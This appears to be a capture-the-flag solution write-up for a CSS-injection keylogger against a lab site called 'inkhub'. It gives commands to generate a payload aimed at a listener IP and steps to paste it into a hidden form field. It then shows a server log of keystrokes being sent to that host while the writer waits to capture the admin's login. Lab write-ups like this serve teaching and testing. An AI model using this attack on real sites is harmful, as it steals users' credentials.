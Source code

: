 # Solution

A provided PoC is placed in [./css-keylogger](./css-keylogger). Here's a quick boiler-plate set of commands to set things up.

```
cd ./css-keylogger
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Now follow these instructions:

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing your .

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  ![](imgs/css-injection-vector.png)
  
- Confirm that the injection went through by checking `styles.css`
  ![](imgs/css-injection-confirmation.png)

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
```
watch cat keystrokes.txt
```
